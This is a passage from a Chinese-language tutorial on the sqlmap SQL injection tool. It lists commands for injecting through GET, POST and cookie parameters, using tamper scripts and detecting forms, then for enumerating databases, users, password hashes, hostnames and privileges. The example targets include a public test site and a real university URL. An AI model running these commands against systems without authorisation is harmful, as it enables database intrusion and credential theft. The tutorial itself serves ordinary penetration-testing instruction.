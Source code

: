 可以提供一个简单的`URL，Burp`或`WebScarab`请求日志文件，文本文档中的完整`http`请求或者`Google`的搜索，匹配出结果页面，也可以自己定义一个正则来判断那个地址去测试。测试`GET`参数，`POST`参数，`HTTP Cookie`参数，`HTTP User-Agent`头和`HTTP Referer`头来确认是否有`SQL`注入，它也可以指定用逗号分隔的列表的具体参数来测试。可以设定`HTTP(S)`请求的并发数，来提高盲注时的效率。

**GET 方式**

```
sqlmap -u "url" //这个URL必须含？
```

**POST 方式**

```
sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"
```

**cookie 注入**

```
sqlmap -u "url" --cookie "chsadj" --level 2 //这里的URL去掉？及其后的内容，并将它们放在cookie的内容里面
```

**tamper 方式**

```
sqlmap -u "url" -v 3 --batch --tamper "sac.py"  //temper后面的插件可以去sql安装目录查找
```

**自动检测表**

```
sqlmap -u http://testasp.vulnweb.com/Login.asp --forms
```

**延时两秒**

```
Sqlmap –u “url” --delay 2
```

**频率 3 次**

```
Sqlmap –u “url” --safe-freq 3
```

**伪静态**

```
Sqlmap -u http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html //在40后面加*
```

#### 3.2 查看数据库

`sqlmap`支持的数据库管理系统有：

```
MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2,
SQLite, Firebird, Sybase和SAP MaxDB
```

**命令**

```
sqlmap -u "url" --dbs   //查看所有数据库
sqlmap -u "url" --users //查看所有用户
sqlmap -u "url" --current-db //查看当前的数据库
sqlmap -u "url" --current-user //产看当前的用户
sqlmap -u "url" --is-dba //查看是否是最高权限
sqlmap -u "url" --passwords //查看所有密码
sqlmap -u "url" –hostname //查看主机名
sqlmap -u "url" privileges -U username //查看用户权限
sqlmap -u "url" –roles //查看用户角色
```
